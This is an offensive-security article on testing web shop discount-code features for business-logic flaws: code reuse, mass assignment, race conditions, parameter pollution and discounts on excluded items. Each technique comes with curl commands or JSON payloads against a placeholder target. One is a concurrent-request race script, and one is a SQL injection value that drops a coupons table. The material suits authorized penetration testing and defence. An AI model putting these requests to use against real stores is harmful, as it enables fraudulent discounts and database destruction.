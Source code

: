 ```yaml
---
title: Discount Code Feature Testing for Web Apps
description: Master discount code feature testing in web apps to identify vulnerabilities
  and exploit unauthorized discounts.
keywords:
- discount code vulnerabilities
- business logic flaws
- race condition
- mass assignment
- coupon injection
- HTTP parameter pollution
- authorization bypass
- reusable discount codes
- web application security
---
```


# Discount Code Feature Testing

## Context

The purpose of this article is to enable offensive cybersecurity operators to identify and exploit business logic flaws within web applications' discount code features. This involves gaining unauthorized discounts or abusing the feature using various techniques. The reader is assumed to have foundational knowledge in HTTP requests, web application architecture, session management, and the concept of business logic errors.

## Theory

### Discount Code Feature Logic and Trust Boundaries

Discount code features allow users to apply promotional codes during the checkout process to receive price reductions. These codes become vulnerable when business logic flaws occur, allowing discounts to be applied contrary to intended restrictions. Applications often trust client-supplied discount codes and parameters without adequate validation, making them susceptible to manipulation and exploitation.

### Common Discount Code Vulnerabilities

Reusable discount codes are exploitable if not restricted to single-use or specific users. Mass assignment vulnerabilities may allow attackers to set unauthorized discount-related fields. Race conditions can enable the multiple applications of a single-use code, HTTP parameter pollution might bypass discount validation logic, discounts may be improperly applied to restricted items, and coupon injection can make the application susceptible to attacks through manipulated inputs.

### Attacker Workflow for Discount Code Feature Testing

- Identify discount code entry points within checkout or cart APIs.
- Test for code reuse, mass assignment flaws, and parameter manipulation opportunities.
- Attempt concurrent requests to cause race conditions.
- Analyze server responses to detect unauthorized or excessive discounts.

## Practice

### Reusable Discount Code Abuse

- Capture a valid discount code and reuse it across multiple accounts to assess if improper restrictions are applied.
  
```bash
curl -X POST https://target.com/api/checkout -d 'cart_id=123&discount_code=SUMMER2024' -b cookies.txt
```

Outcome: The discount code can be reused, leading to unauthorized discounts.

### Mass Assignment for Unauthorized Discount Application

- Intercept a checkout request and add unauthorized discount-related parameters to verify backend security posture.

Payload:

```json
{
    "cart_id": 123,
    "discount_code": "SUMMER2024",
    "discount_amount": 100
}
```

Outcome: Attacker is able to set arbitrary discount values via mass assignment.

### Coupon Race Condition Exploitation

- Send multiple concurrent requests applying the same single-use code to trigger race conditions.

Exploitation Script:

```bash
for i in {1..10}; do curl -X POST https://target.com/api/checkout -d 'cart_id=123&discount_code=RACE2024' & done; wait
```

Outcome: A single-use code is redeemed multiple times due to a race condition.

### HTTP Parameter Pollution for Discount Bypass

- Manipulate the request to include duplicate `discount_code` parameters and test backend logic.

Command:

```bash
curl -X POST 'https://target.com/api/checkout?discount_code=SUMMER2024&discount_code=VIP2024' -b cookies.txt
```

Outcome: Multiple or unauthorized discounts are applied via parameter pollution.

### Discount on Restricted Item Exploit

- Apply a discount code to items that should be excluded, such as gift cards or premium products.

Payload:

```json
{
    "cart_id": 123,
    "discount_code": "SUMMER2024",
    "item_id": 999
}
```

Outcome: The discount is applied to restricted items due to a lack of server-side validation.

### Coupon Injection via Input Manipulation

- Inject special characters or payloads into the discount code fields to check for input validation flaws.

Payload:

```
SUMMER2024'; DROP TABLE coupons; --
```

Outcome: Potential for code or query injection via discount code input.

## Tools

- **Burp Suite**
- **curl**
- **OWASP ZAP**